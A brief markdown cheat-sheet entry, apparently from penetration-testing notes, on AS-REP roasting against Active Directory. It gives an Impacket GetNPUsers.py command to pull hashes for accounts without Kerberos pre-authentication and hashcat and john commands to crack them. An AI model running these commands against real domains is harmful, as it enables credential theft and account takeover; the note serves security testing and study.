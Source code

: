 # ASREProast

This attack allows to exploit accounts with the flag "Do not require Kerberos pre-authentication" to retrieve their hashes. Once an hash is acquired it can be cracked to obtain a plaintext password and allow the attacker to login as the compromised user.

## Exploit

Attempt to retrieve hashes from user list

```
GetNPUsers.py -dc-ip <DC IP> <domain>/ -usersfile <path to user list>
```

Crack hashes

```
hashcat -m 18200 --force <hashfile> <wordlist>
john --format=krb5asrep --wordlist=<wordlist> <hashfile>    #requires jumbo version
```
